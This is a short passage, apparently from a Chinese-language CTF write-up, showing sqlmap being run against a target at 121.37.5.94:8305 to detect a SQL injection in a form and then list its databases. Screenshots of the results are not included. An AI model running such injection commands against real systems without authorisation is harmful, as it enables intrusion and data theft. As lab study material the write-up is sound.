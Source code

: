 ```shell
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form
```

![image-20220126141421354](../CTF-images/image-20220126141421354.png)

可以看出`sqlmap`检测出了可注入，那么测试一下自动注入：

```shell
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form --dbs
```

![image-20220126141530131](../CTF-images/image-20220126141530131.png)
